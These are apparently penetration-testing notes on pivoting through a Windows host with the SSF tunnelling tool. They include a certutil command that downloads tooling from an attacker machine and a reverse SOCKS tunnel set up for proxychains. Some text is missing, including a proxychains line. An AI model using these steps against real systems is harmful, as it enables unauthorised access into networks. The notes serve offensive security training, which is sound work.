


Secure Sockets Funnelling (SSF)
Github:
https://securesocketfunneling.github.io/ssf/#homeSSF is a cross-platform tool which allows secure traffic routing of both TCP and UDP packets in a variety of configurations.
SSF re uire 2 components to work:
◇
ssfd → SSF Server that listen for communications
◇
ssf → SSF Client connect to the SSF Server
Set Up
On the attacker machine download
git clone https://github.com/DenFox93/ssf.git
1. Create Web Server on the Attacker machine
cd ssf
python3 -m http.server
2. Download zip file on the Windows machine and extract it
C:\> cd ssf-win-i386-3.0.0
C:\> certutil -urlcache -f http://<kali ip>:8000/ssf-win-i386-3.0.0.zip ssf-win-i386-3.0.0.zip
C:\> powershell #start powershell
PS> Expand-ZipFile C:\Users\pparker\Desktop\ssf-win-i386-3.0.0.zip -Destination C:\Users\pparker\Desktop
*to extract zip files from powershell 2.0 define new function
function Expand-ZIPFile($file, $destination){$shell = new-object -com shell.application;$zip = $shell.NameSpace($file); foreach($item in $zip.items()){$shell.Namespace($destination).copyhere($item)}}1.
Attacker machine Server (192.168.59.128): sets ssf up listening on port 11111 for a connection request from a client.
cd ssf/ssf-linux-x86_64-3.0.0
chmod +x ssfd
ssfd -p 11111
In /etc/proxychains.conf to set up the proxy add the line:
Note that you need to set 127.0.0.1 not other interfaces
2.
Target Client: set up client to connects to the ssfd on the Attacker
ssf -F 22222 -p 11111 192.168.59.128
The -F switch makes SSF forward traffic in the other direction, from the server(ssfd) to the client(ssf)
Use Proxychains through Pivot host Bibliography:https://neilsec.com/penetration-testing/how-to-easily-pivot-through-a-windows-host-with-secure-sockets-funnelling-ssf-part-1/https://ivanitlearning.wordpress.com/2019/03/08/client-side-exploitation-windows-pivoting-w-o-metasploit/https://ivanitlearning.wordpress.com/2020/04/17/double-pivoting-with-ssf/